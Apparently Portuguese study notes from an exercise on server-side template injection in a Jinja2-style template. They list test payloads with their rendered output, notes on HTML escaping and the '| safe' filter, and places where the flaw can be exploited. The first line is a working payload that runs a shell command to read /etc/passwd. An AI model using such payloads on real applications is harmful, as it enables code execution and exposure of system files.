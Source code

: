 {{ cycler.__init__.__globals__.os.popen('cat /etc/passwd').read() }}
	saída esperada conforme subject

{{ [].__class__ }} → <class 'list'>
	retorna: Hello, { &lt;class &#39;list&#39;&gt; → <class 'list'> }!
	indica que o template está escapando os caracteres especiais de HTML
para corrigir isso podemos forçar a renderização com:
{{ [].__class__ | safe }}
	retorna: Hello, { <class 'list'> }!

{{ 'A' * 10 }}
	retorna: Hello, { AAAAAAAAAA }!

Onde essa vulnerabilidade pode ser explorada:
- Dados vindos de banco de dados: Mesmo que o input original tenha sido feito em outro momento, se o conteúdo do banco for renderizado com {{ }} sem escape, você ainda pode executar código mais tarde (SSTI armazenado).
- E-mails ou mensagens geradas por templates: Alguns sistemas geram e-mails usando templates preenchidos por dados do usuário. Se o nome do usuário é inserido em um template de e-mail sem limpeza, pode permitir execução.
- URLs com parâmetros visíveis no template: Se o backend renderiza user dentro de um template, a execução pode acontecer.